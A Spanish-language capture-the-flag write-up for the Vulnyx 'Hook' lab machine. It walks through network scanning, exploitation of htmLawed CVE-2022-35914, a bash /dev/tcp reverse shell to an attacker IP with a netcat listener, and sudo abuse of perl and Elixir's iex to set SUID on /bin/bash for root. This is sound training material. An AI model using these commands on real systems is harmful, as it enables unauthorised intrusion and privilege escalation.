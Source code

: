 ```yaml
---
title: Vulnyx - Hook
author: estx
date: 2024-04-25 16:41:00 +0800
categories: [Writeup, Vulnyx, Easy]
tags: [Linux, 'htmLawed', 'CVE-2022-35914' , 'abuse of privileges']
math: true
mermaid: true
image:
  path: /assets/images/Vulnyx/Easy/Hook/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hook Machine Logo
---
```


Máquina Linux de nivel **Easy** de Vulnyx.

Técnicas usadas: **CVE-2022-35914, abuse of privileges**


### Fase de Reconocimiento 🧣

Como primer punto, identificamos la dirección IP de la **`Máquina Vulnyx`**

```bash
root@kali> arp-scan -I eth0 --local --ignoredups

<SNIP>
192.168.100.64	08:00:27:c6:4f:1d	PCS Systemtechnik GmbH
```
> Con esto identificamos todos los dispositivos en nuestra red local.

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n 192.168.100.64 -oG puertos`**

  ![](/assets/images/Vulnyx/Easy/Hook/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando

* **`nmap -p22,80,4369 -sCV 192.168.100.64 -oN versions`**

  ![](/assets/images/Vulnyx/Easy/Hook/02-versions.png)

> Lo que más llama la atención es el directorio **`htmLawed`**

c. Si investigamos más sobre **htmLawed** llegamos a este [post](https://mayfly277.github.io/posts/GLPI-htmlawed-CVE-2022-35914/) en el que nos mencionar el **CVE-2022-35914**. El directorio al que acceden es `/vendor/htmlawed/htmLawed/htmLawedTest.php`, sin embargo, si nos fijamos, el directorio listado en el archivo **robots.txt** es **htmLawed** por lo que podemos intuir que únicamente debemos visitar el fichero  **htmLawedTest.php**.


  ![](/assets/images/Vulnyx/Easy/Hook/03-url.png)

* Si seguimos las indicaciones del [post](https://mayfly277.github.io/posts/GLPI-htmlawed-CVE-2022-35914/), veremos que podemos modificar un hook con el fin de ejecutar comandos

  ![](/assets/images/Vulnyx/Easy/Hook/04-config.png)

  ![](/assets/images/Vulnyx/Easy/Hook/05-output.png)


d. Nos entablamos una reverse shell

```bash
❯ cat index.html

#!/bin/bash

bash -i >& /dev/tcp/192.168.100.55/4444 0>&1
---------------------------------------------

❯ python -m http.server 80

---------------------------------------------

❯ nc -lvnp 4444
```

> Con esto lo que hacemos es servir el archivo `index.html`, para que al ser requerido por la máquina víctima se ejecute el código **.sh**

* Hacemos que la máquina víctima solicite el archivo

![](/assets/images/Vulnyx/Easy/Hook/06-command.png)

![](/assets/images/Vulnyx/Easy/Hook/07-reverse.png)


### Escalada de Privilegios 💹

1. Hacemos el tratamiento de la TTY para trabajar de manera más cómoda con la reverse shell

```bash
bash-5.2$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
bash-5.2$ ^Z
[1]  + 66303 suspended  nc -lvnp 4444
❯ stty raw -echo;fg
[1]  + 66303 continued  nc -lvnp 4444
                                     reset xterm

bash-5.2$ export TERM=xterm-256color
bash-5.2$ source  /etc/skel/.bashrc 
www-data@hook:/var/www/html/htmLawed$
```

2. Listamos los privilegios a nivel de sudoers de este usuario

```bash
www-data@hook:/var/www/html/htmLawed$ sudo -l
User www-data may run the following commands on hook:
    (noname) NOPASSWD: /usr/bin/perl
```

* Como podemos ejecutar **perl** como el usuario noname ejecutaremos un comando para spawnear una bash

```bash
www-data@hook:/var/www/html/htmLawed$ sudo -u noname /usr/bin/perl -e 'exec "/bin/bash";'
bash-5.2$ whoami
noname
```

3. Ahora, vemos de nuevo los permisos a nivel de sudoers de este usuario

```bash
bash-5.2$ sudo -l

User noname may run the following commands on hook:
    (root) NOPASSWD: /usr/bin/iex
```

> **iex**: Es una consola interactiva para el lenguaje Elixir
{: .prompt-info }


* Al investigar una forma de ejecutar comando en Elixir obtenemos esto:

```elixir
System.cmd("whoami", [])  -> Comando sin argumentos
System.cmd("ls", ["la"]) -> Comando con argumentos
```


4. Lo que haremos es otorgar permiso **SUID** a la `/bin/bash` y, como este comando lo ejecutaremos como root, cualquier usuario podrá spawnear una bash como el usuario root sin necesidad de otorgar una contraseña

```elixir
iex(1)> System.cmd("chmod", ["+s", "/bin/bash"])
{"", 0} -> El `0` nos indica que el comando se ejecutó exitosamente
```

5. Por último nos salimos de esta consola interactiva con `Ctrl` + `c` y luego poniendo `a` y ejecutamos **bash -p**

```bash
iex(2)> 
BREAK: (a)bort (A)bort with dump (c)ontinue (p)roc info (i)nfo
       (l)oaded (v)ersion (k)ill (D)b-tables (d)istribution
a
----------------------------------------------------------------
bash-5.2$ bash -p
bash-5.2# whoami
root
```
